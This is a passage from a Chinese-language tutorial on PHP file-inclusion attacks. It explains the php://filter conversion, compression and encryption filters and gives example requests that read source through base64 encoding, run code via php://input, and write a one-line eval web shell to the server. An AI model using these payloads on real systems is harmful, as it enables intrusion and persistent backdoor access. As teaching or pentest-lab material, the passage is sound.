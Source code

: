 
| 转换过滤器 | 作用 |
| --- | --- |
| convert.base64-encode & convert.base64-decode | 等同于`base64_encode()`和`base64_decode()`，base64编码解码 |
| convert.quoted-printable-encode & convert.quoted-printable-decode | quoted-printable 字符串与 8-bit 字符串编码解码 |


| 压缩过滤器 | 作用 |
| --- | --- |
| zlib.deflate & zlib.inflate | 在本地文件系统中创建 gzip 兼容文件的方法，但不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。 |
| bzip2.compress & bzip2.decompress | 同上，在本地文件系统中创建 bz2 兼容文件的方法。 |


| 加密过滤器 | 作用 |
| --- | --- |
| mcrypt.\* | libmcrypt 对称加密算法 |
| mdecrypt.\* | libmcrypt 对称解密算法 |

*   **示例**：
    
    1.  `php://filter/read=convert.base64-encode/resource=[文件名]`读取文件源码（针对php文件需要base64编码）
        
```
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```

![](https://segmentfault.com/img/bVbrQBf)
        
2.  `php://input + [POST DATA]`执行php代码
        
```
http://127.0.0.1/include.php?file=php://input
\[POST DATA部分\]
<?php phpinfo(); ?>
```

![](https://segmentfault.com/img/bVbrQBh)
        
若有写入权限，写入一句话木马
        
```
http://127.0.0.1/include.php?file=php://input
\[POST DATA部分\]
<?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET\[cmd\]); ?>'); ?>
```

![](https://segmentfault.com/img/bVbrQBi)
    
*   **参考**：[https://php.net/manual/zh/wrappers.php.php](https://link.segmentfault.com/?enc=P6lad%2Bcjz1zfhaqimR2scQ%3D%3D.%2FxLB67lhajKPFofXP3%2BYtNyuBoNW4XEi3FgR1vXquJdHsHkRv7D8%2F1yzSi%2FsqEEs)

## `zip:// & bzip2:// & zlib://` 协议

